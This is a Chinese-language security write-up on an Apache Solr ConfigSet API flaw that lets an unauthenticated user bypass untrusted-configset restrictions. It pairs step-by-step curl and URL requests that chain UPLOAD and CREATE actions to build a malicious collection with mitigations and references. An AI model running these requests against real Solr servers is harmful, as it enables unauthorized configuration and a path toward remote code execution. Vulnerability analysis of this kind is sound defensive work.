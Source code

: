
### 影响版本
- 6.6.0 to 6.6.5
- 7.0.0 to 7.7.3
- 8.0.0 to 8.6.2

### 漏洞描述
本来Solr禁止了一些通过ConfigSet这个API上传进行配置的功能，因为这种危险操作容易造成RCE。但是可以通过结合UPLOAD/CREATE这两个ACTION来绕过这一限制。


原文
> Solr prevents some features considered dangerous (which could be used for remote code execution) to be configured in a ConfigSet that's uploaded via API without authentication/authorization. The checks in place to prevent such features can be circumvented by using a combination of UPLOAD/CREATE actions.

### 漏洞利用条件
- Solr的API未设置认证
- SolrCloud模式启动（因为Standalone模式不具备Configset API的功能）


### Upload a Configset
上传功能默认开启，除非指定JVM参数：
```
-Dconfigset.upload.enabled=false
```


### 漏洞描述/原理：

正常的通过UPLOAD传上去的configset，是不能用于创建collection的： 如果尝试创建，会出现这个错误
```
The configset for this collection was uploaded without any authentication in place, and use of <lib> is not available for collections with untrusted configsets. To use this component, re-upload the configset after enabling authentication and authorization.
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201013205617142.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70)
而当我们先UPLOAD，然后基于这个configset，去CREATE一个collection，就可以绕过这个限制：

达到的效果是可以自定义configset，然后基于此创建恶意collection。目前没想到如何利用好这个自定义的配置实现RCE。只知道用之前的模板注入，不过那个有版本限制吧？

### 步骤：
```
1、【UPLOAD】准备恶意配置，打包，上传

# 先将配置打包成zip
 (cd solr/server/solr/configsets/sample_techproducts_configs/conf && zip -r - *) > db-configset.zip
 
 # 再通过上传API将zip上传
 curl -X POST --header "Content-Type:application/octet-stream" --data-binary @db-configset.zip "http://localhost:8983/solr/admin/configs?action=UPLOAD&name=db-configset"
2、【CREATE】根据UPLOAD的配置，创建一个新的配置，绕过不能通过直接UPLOAD创建collection的限制

/solr/admin/configs?action=CREATE&name=db-configset1&baseConfigSet=db-configset&configSetProp.immutable=false&wt=xml&omitHeader=true
3、【LIST】查看Configsets的配置，确保已生成了新的configset

/solr/admin/configs?action=LIST&omitHeader=true
4、根据CREATE得到的configset创建恶意collection

/solr/admin/collections?action=CREATE&numShards=1&name=coll_test1&collection.configName=db-configset1
5、利用之前的漏洞进行利用？
```

### 修复建议/缓解措施

- 禁用UPLOAD命令，即`-Dconfigset.upload.enabled=false`；
- 进行认证
- 升级到8.6.3及以上
- 若无法升级，尝试打这个补丁：[SOLR-14663](https://issues.apache.org/jira/browse/SOLR-14663)
- 设置防火墙规则进行访问控制，设置Solr API访问的白名单


### 参考
- https://seclists.org/oss-sec/2020/q4/47
- [ConfigSets CREATE does not set trusted flag](https://issues.apache.org/jira/browse/SOLR-14663)
- https://issues.apache.org/jira/browse/SOLR-14925



### Note
参考：
http://mail-archives.apache.org/mod_mbox/lucene-solr-user/201807.mbox/%3CCAPCX2-+jojXrWvPSPiBR_xwphdpk+yPM2HYLojX2rqRTKMGm9g@mail.gmail.com%3E


Solr可以运行在两种模式："Cloud" mode or "Standalone" mode。

SolrCloud mode下，可以创建collections，而在Standalone mode下，只能创建core。


在Standalone mode下会出现400，
![在这里插入图片描述](https://img-blog.csdnimg.cn/2020101311185353.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70#pic_center)
关闭，重新启动SolrCloud mode：
这次成功了：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201013111947306.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70#pic_center)



### 附录
#### 上传Configsets
```
# 先将配置打包成zip
 (cd solr/server/solr/configsets/sample_techproducts_configs/conf && zip -r - *) > myconfigset.zip
 
 # 再通过上传API将zip上传
 curl -X POST --header "Content-Type:application/octet-stream" --data-binary @myconfigset.zip "http://localhost:8983/solr/admin/configs?action=UPLOAD&name=myConfigSet"
```

#### 创建Configsets
基于之前上传的Configsets创建一个新的configset 
- name：这个新的的configset的名字
- baseConfigSet：基于哪个上传的Configsets
- configSetProp.immutable：将这个设置为false

```
http://cqq.com:8983/solr/admin/configs?action=CREATE&name=myConfigSet1&baseConfigSet=myConfigSet&configSetProp.immutable=false&wt=xml&omitHeader=true
```

#### 查看Configsets：
```
http://cqq.com:8983/solr/admin/configs?action=LIST&omitHeader=true
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201013113257997.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70#pic_center)

上传、以及配置后的Configsets并不在文件系统中，而是在Zookeeper中。

> The Configsets API enables you to upload new configsets to ZooKeeper, create, and delete configsets when Solr is running SolrCloud mode.


> This API provides a way to upload configuration files to ZooKeeper and share the same set of configuration files between two or more collections.

